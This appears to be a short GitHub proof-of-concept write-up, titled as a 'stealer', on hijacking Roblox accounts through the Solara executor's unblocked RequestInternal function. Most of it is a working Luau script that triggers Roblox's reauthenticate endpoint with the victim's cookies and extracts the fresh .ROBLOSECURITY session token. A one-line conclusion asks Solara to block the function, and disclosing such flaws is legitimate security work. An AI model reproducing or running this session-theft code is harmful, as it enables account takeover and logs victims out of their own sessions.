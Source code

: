 # Solara-Stealer-PoC
Writeup on stealing roblox accounts with Solara

# Introduction
[RequestInternal](https://robloxapi.github.io/ref/class/HttpService.html#member-RequestInternal) is a 'CoreScript' function in Roblox that allows the Roblox engine to interact with Roblox’s internal web APIs. This function is essential for interacting with Roblox's web API's as the user. This write-up will focus on its use in session hijacking, and other potential uses.

# Session Hijacking via Reauthentication
Under the "[Roblox authentication web API](https://auth.roblox.com)", a feature exists under the name "logoutfromallsessionsandreauthenticate". It does exactly what the name suggests, it takes the input '.ROBLOSECURITY' session, invalidates it, then gives you a new one to reauthenticate with.

Now, with 'RequestInternal', you cannot use the function with a normal LocalScript, as if you could you could perform actions maliciously using the user's cookie(s). The issue, is that Solara, did not block this function for use in the execution, therefore the user using Solara is vulnerable to the exploitation of 'RequestInternal'.

# Example
```luau
-- httpservice
local httpService = game:GetService("HttpService")

-- data for the request
local data = {
    Url = "https://auth.roblox.com/v1/logoutfromallsessionsandreauthenticate", -- url for reauthentication
    Method = "POST", -- send a POST request
    Body = "{}" -- placeholder
}
-- this request will be sent with the user's cookies
local request = httpService:RequestInternal(data)

-- success is a boolean - whether or not the request was a success (?)
-- response is the dict of response data:
--[[
    response.Body: string
    response.Headers: table (dict)
    response.StatusCode: number
]]
    -- start the request
request:Start(function(success, response) 
    local headers = response.Headers -- get the response headers
    local cookie = headers["set-cookie"] -- get the cookies sent from the server
    local session = cookie:split(";")[1] -- get the raw cookie text without expiration shi

    print(session) -- output the reauthenticated session
end)
```

# Conclusion
Solara needs to disallow exploiters from being able to use the 'RequestInternal' function.
